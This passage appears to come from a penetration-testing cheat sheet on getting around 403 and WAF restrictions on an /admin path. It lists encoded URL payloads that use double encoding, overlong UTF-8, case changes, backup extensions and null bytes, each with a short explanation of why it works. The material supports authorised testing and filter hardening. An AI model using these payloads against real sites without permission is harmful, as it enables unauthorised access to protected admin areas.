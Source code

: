 ## Double/Triple Encodings

``
url.com/admin/%252f   (Decodes to %2f -> '/')
url.com/admin%25253F  (Double-encoded '?')
``

##Unicode/Overlong UTF-8
```
url.com/%u0061dmin    (Unicode for 'admin')
url.com/%c0%afadmin   (Overlong UTF-8 for '/')
url.com/admin%e5%98%8a%e5%98%8d  (Obscure Unicode)
```

## Why it Works

WAFs and access controls often have a single decode step. If you double- or triple-encode, you may bypass that first filter.



# 6. Case Variations & Typos
On Windows-based servers or other case-insensitive file systems, changing the case might help. Some apps do strict checks expecting admin in lowercase:

```
url.com/ADMIN
url.com/ADMIN/
url.com/ADM+IN
url.com/AdMiN
```
## Why it Works

The server (or an app route) might treat paths case-insensitively, while a WAF or rewrite rule is case-sensitive.


# 7. File Extension & Null Byte Tricks
Appending or removing file extensions might bypass extension-based filters.

```
url.com/admin.json
url.com/admin.css
url.com/admin.html
url.com/admin.php~
url.com/admin.old
url.com/admin.bak
url.com/admin.inc
url.com/admin.~
url.com/admin%00
```
## Why it Works

Some servers only block .php or .asp but forget to block .json or .bak. A null byte (%00) can truncate path checks on older or poorly written code.


(to-add: headers + methods)
